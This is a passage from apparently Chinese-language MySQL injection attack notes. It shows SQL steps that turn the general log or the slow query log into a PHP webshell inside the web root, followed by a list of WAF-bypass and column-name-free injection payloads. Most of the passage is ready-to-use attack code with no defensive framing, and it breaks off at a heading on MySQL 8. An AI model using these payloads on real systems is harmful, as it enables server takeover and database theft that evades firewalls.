 **步骤:**

```mysql
set global general_log='on';//开启日志记录
SET global general_log_file='c:/www/webshell.php';//设置日志路径为web目录
SELECT 'phpinfo();';//该语句会被记录到日志中从而写入webshell
```

#### 慢日志slow_query_logGetshell

MySQL的慢查询日志是MySQL提供的一种日志记录,它用来记录在MySQL中响应时间超过阀值的语句,具体指运行时间超过long_query_time值的SQL,则会被记录到慢查询日志中.long_query_time的默认值为10,意思是运行10S以上的语句.默认情况下,Mysql数据库并不启动慢查询日志,需要我们手动来设置这个参数.

**利用条件:**

* 注入点支持堆叠语句或者能独立执行sql语句(phpmyadmin...)
* 知道网站绝对路径

**步骤:**

```mysql
set global slow_query_log=1;//开启慢查询
set global slow_query_log_file='c:/www/webshell.php';//设置日志路径为web目录
SELECT "phpinfo();"  or sleep(11);//使用sleep(11)使该语句记录到日志
```
## WAF Bypass
1. and -> %26(&)
2. , -> join
3. mysql版本大于5.6.x新增加的两个表**innodb_index_stats**和**innodb_table_stats**,主要是记录的最近数据库的变动记录,可用于代替informaiton_schema查询库名和表名.  
```sql
    select database_name from mysql.innodb_table_stats group by database_name;
    select table_name from mysql.innodb_table_stats where database_name=database();
```
4. 无列名注入,将目标字段与已知值联合查询,利用别名查询字段数据
```sql
    select group_concat(`2`) from (select 1,2 union select * from user)x 
```
5. 无列名注入,利用子查询一个字段一个字段进行大小比较进行布尔查询
```sql
    select ((select 1,0)>(select * from user limit 0,1))
```
6. 空白字符:09 0A 0B 0D A0 20
7. \`:select\`version\`();绕过空格和正则.
8. 点(.):在关键字前加点,`select-id-1+3.from qs_admins;`
9. @: `select@^1.from admins;`
## mysql8
### 新增的表
#### information_schema.TABLESPACES_EXTENSIONS
它直接存储了数据库和数据表
### 新增功能
#### table

https://mp.weixin.qq.com/s/R2Sud4uMSTV9egt0Lub36Q

## 参考

https://mp.weixin.qq.com/s/VgXOXVl-Bx2Vi8BYxdx3CA